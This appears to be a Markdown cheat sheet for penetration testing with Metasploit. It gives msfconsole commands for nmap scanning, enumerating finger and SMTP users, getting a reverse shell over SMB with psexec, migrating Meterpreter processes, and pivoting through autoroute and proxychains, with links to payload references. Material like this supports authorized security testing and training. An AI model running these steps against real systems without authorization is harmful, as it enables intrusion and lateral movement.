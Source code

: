 # Nmap Scan with Metasploit

This will perform a nmap scan and feed the results into Metasploit.
```bash
msfconsole
db_nmap
```

# Finger
##### Enumerate Users with Finger
```bash
msfconsole -q
search finger
use auxiliary/scanner/finger/finger_users
use 1
show options

set RHOSTS <SMTP Host>
set USERS_FILE <Wordlist>
run
```

# SMB
##### Establish Reverse Shell with SMB
```bash
msfconsole
use exploit/windows/smb/psexec
set RHOSTS <Target Host>
set SMBUser <Username>
set SMBPass <Password>
exploit
```

# SMTP
### Enumerate SMTP Users
```bash
msfconsole -q
search smtp_enum

use auxiliary/scanner/smtp/smtp_enum
# or
use 0
show options

set RHOSTS <SMTP Host>
set USER_FILE <Wordlist>
run
```

# Meterpreter
### Migrate to Another Process By Name
```bash
migrate -N <Process Name>.<Extension>
```
### Pivot With Meterpreter and Proxychains
```bash
# Establish meterpreter session
# Background meterpreter
background
use post/multi/manage/autoroute
show options
set SESSION <meterpreter session #>
set NETMASK <Netmask of NIC on exploited target>
run

cat /etc/proxychains4.conf

use auxiliary/server/socks_proxy
show options
SRVPORT = 1080
VERSION = 5
set SRVPORT 9050 # Change port to match /etc/proxychains4.conf
set VERSION 4a # Does not work with version 5.  Must be 4a.
run
jobs

# Run nmap scan
proxychains nmap -sV -sT -Pn -sC -p<Port #> <Target Host>
# Exploited target with SMB.  Therefore, -p must be 445.
```
##### [Pivoting attack traffic](https://www.youtube.com/watch?v=Wn59J8PiIl0)
##### [84 post exploitation pivoting autoroute](https://www.youtube.com/watch?v=jjUamstPDWo)
##### [Multi Manage Network Route via Meterpreter Session - Metasploit](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/manage/autoroute)

# Cheatsheets
[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

# References
[Deep Dive Into Stageless Meterpreter Payloads](https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/)

[Metasploit Module Library](https://www.infosecmatter.com/metasploit-module-library/)